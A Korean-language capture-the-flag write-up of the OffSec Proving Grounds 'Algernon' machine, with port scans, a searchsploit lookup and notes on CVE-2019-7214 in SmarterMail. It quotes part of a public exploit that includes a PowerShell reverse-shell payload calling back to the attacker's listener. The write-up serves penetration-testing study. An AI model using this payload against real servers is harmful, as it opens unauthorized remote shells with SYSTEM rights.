



---

title: "Proving grounds Practice: Algernon 문제풀이"

excerpt: "Offsec proving grounds practice windows machine writeup"

categories: pg_practice

tags:

- CTF

- Offsec labs

- OSCP

- Writeup

- Windows

- pg-practice

typora-root-url: ../../

date: 2025-08-29

last_modified_at: 2025-08-29

---

  

## RustScan + Nmap
```sh
└─$ rustscan -a 192.168.107.65 --ulimit 5000 -- nmap -sV -sC -Pn -n -oA nmapDetailed
[ . . . ]              
Open 192.168.107.65:21
Open 192.168.107.65:80
Open 192.168.107.65:135
Open 192.168.107.65:139
Open 192.168.107.65:445
Open 192.168.107.65:5040
Open 192.168.107.65:7680
Open 192.168.107.65:9998
Open 192.168.107.65:17001

[ . . . ]        

PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 125 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 08-29-25  12:35AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_04-29-20  10:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  pando-pub?    syn-ack ttl 125
9998/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
17001/tcp open  remoting      syn-ack ttl 125 MS .NET Remoting services
[. . . ]

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```


## Web
### PORT: 80



### PORT: 9998


  


## Vulnerability Analysis
```
└─$ searchsploit smartermail   

SmarterMail Build 6985 - Remote Code Execution | windows/remote/49216.py
[ . . . ]

┌──(kali㉿kali)-[~/Desktop/offsec/Algernon]
└─$ searchsploit -m 49216                
```
**CVE-2019-7214**
[49216-Exploit-DB](https://www.exploit-db.com/exploits/49216)


`$ vim 49216`
```python
# Exploit Title: SmarterMail Build 6985 - Remote Code Execution
# Exploit Author: 1F98D
# Original Author: Soroush Dalili
# Date: 10 May 2020
# Vendor Hompage: re
# CVE: CVE-2019-7214
# Tested on: Windows 10 x64
# References:
# https://www.nccgroup.trust/uk/our-research/technical-advisory-multiple-vulnerabilities-in-smartermail/
#
# SmarterMail before build 6985 provides a .NET remoting endpoint
# which is vulnerable to a .NET deserialisation attack.
#
#!/usr/bin/python3

import base64
import socket
import sys 
from struct import pack

HOST='192.168.107.65'     // 해당 부분 변경
PORT=17001                // 해당 부분 변경
LHOST='192.168.45.237'    // 해당 부분 변경
LPORT=4444                // 해당 부분 변경

psh_shell = '$client = New-Object System.Net.Sockets.TCPClient("'+LHOST+'",'+str(LPORT)+');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
psh_shell = psh_shell.encode('utf-16')[2:] # remove BOM
psh_shell = base64.b64encode(psh_shell)
psh_shell = psh_shell.ljust(1360, b' ')

```

- SmarterMail before build 6985 provides a .NET remoting endpoint, which is vulnerable to a .NET deserialisation attack. -> 포트 스캔으로 현재 대상 호스트에 `17001/tcp open  remoting      syn-ack ttl 125 MS .NET Remoting services` 가동 중인 것을 확인했었다.


## Exploitation

  


## Privilege Escalation
NT AUTHORITY\SYSTEM 유저의 쉘을 획득했기 때문에 권한 상승을 진행할 필요가 없다.
  

## Study Part - CVE-2019-7214
**CVE-2019-7214** 
- 취약한 소프트웨어: SmarterTools SmarterMail 16.x 버전, 빌드 6985 이전
- 취약점 유형: .NET 객체 역직렬화 취약점 (Deserialization of Untrusted Data)
- 취약점 위치: SmarterMail이 사용하는 .NET Remoting Endpoint (기본 포트 17001)
- 취약점 설명:
  - 외부에서 역직렬화할 때 신뢰하지 않은 데이터가 처리되면서 임의의 코드를 실행할 수 있음
  - 인증이 필요 없으며, 공격자가 원격에서 서버 권한으로 명령어를 실행 가능
  - 공격 성공 시 NT AUTHORITY\SYSTEM 권한으로 완전한 서버 제어 가능
- 공격 경로
  - SmarterMail 서버의 17001 포트 (/Servers, /Mail, /Spool) 접근 통로를 통해 .NET 바이너리 포맷 데이터를 역직렬화하는 과정에서 발생
  - 이 포트를 원격에서 노출한 경우 큰 위험
- 영향
  - 원격 인증 없이 시스템 권한이 탈취될 수 있음